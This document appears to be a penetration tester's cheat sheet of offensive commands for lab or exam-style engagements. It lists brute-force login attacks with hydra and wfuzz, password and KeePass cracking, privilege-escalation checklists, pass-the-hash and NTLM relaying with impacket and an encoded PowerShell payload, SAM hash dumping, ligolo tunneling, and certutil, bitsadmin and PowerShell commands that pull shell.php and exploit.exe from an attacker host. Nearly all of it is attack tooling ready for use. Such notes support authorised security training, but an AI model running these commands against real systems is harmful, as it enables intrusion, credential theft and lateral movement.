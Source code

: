 **NMAP**
  nmap sweep scan 
  - nmap -sP 10.10.155.1-225
  Most used nmap scan
  - nmap -p- -A -T4 -sV 10.10.155.5

  THREADER3000
cp ~/Files/Tools/threader3000/threader3000.py .

**Nikto**

**Weak Credentials**
HTTP Brute Force

wfuzz POST
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php

hydra POST
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20

wfuzz NTLM
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api

wfuzz Basic Auth through Proxy
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/

**Password Cracking**

zip
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip 

/etc/shadow
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords

keepass
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file

**Linux Privilege Escalation**
id
sudo -l
sudo -i
uname -a
find / -writable -type d 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
grep -Rni . -e 'password' // search for interesting string recursively in files.
Run Linpeas
Run pspy64
sudo -V
run lse.sh
Kernel Exploits
OS Exploits
Password reuse (mysql, .bash_history, 000-default.conf...)
Known binaries with suid flag and interactive (nmap)
Custom binaries with suid flag either using other binaries or with command execution
Writable files owned by root that get executed (cronjobs)
MySQL as root
Vulnerable services (chkrootkit, logrotate)
Writable /etc/passwd
Readable .bash_history
SSH private key
Listening ports on localhost
/etc/fstab
/etc/exports
/var/mail
Process as other user (root) executing something you have permissions to modify
SSH public key + Predictable PRNG
apt update hooking (Pre-Invoke)
Capabilities

**Windows Privilege Escalation**
Kernel Exploits
OS Exploits
Pass The Hash
Password reuse
DLL hijacking (Path)
Vulnerable services
Writable services binaries path
Unquoted services
Listening ports on localhost
Registry keys

**Situational Awareness**
C:\> whoami /groups
PS C:\> Get-LocalUser
PS C:\> Get-LocalGroup
PS C:\> Get-LocalGroupMember Administrators
C:\> systeminfo
C:\> ipconfig /all
C:\> route print
C:\> netstat -ano

**Hidden in Plain View**
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
PS C:\> Get-Process
PS C:\> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
C:\> net user steve
C:\> runas /user:backupadmin cmd

**Information Gathering Powershell**
PS C:\> Get-History
PS C:\> (Get-PSReadlineOption).HistorySavePath

**Passing NTLM**
kali@kali:~$ smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

**Cracking Net-NTLMv2**
kali@kali:~$ sudo responder -I tap0  C:\> dir \\IP_Kali\test

kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force

**Relaying Net-NTLMv2**
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t IP_Target -c "powershell -enc JABjAGwAaQBlAG4AdA..."

when finding backup SAM and SYSTEM files in windows.old/Windows/system32

kali@kali:~$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL > SAMhashes

**Tunneling & Port Forwarding**

**ligolo - https://github.com/nicocha30/ligolo-ng**
### Access to agent's local ports (127.0.0.1) https://github.com/nicocha30/ligolo-ng?tab=readme-ov-file#access-to-agents-local-ports-127001


 ./proxy -selfcert
 
sudo ip route add 172.16.1.0/24 dev ligolo

./agent -connect <ip>:11601 -ignore-cert

root@DANTE-WEB-NIX01:~# ./agent -connect 10.10.14.4:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled

INFO[0000] Connection established   addr="10.10.14.4:11601"


**Reverse Shells**
https://www.revshells.com/
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

**Upgrade Shell**
python -c 'import pty;pty.spawn("/bin/bash")’

**HTTP Server**


**Windows File Transfer**

python3 -m http.server 

wget.exe http://<ip>/file -o file

certutil -urlcache -split -f  https://<ip>/file.txt -o file.txt

bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php

cscript wget.vbs http://<ip>/test.txt test.txt

powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"

ftp

client:

echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
server:

python -m pyftpdlib  --port=2121 --write
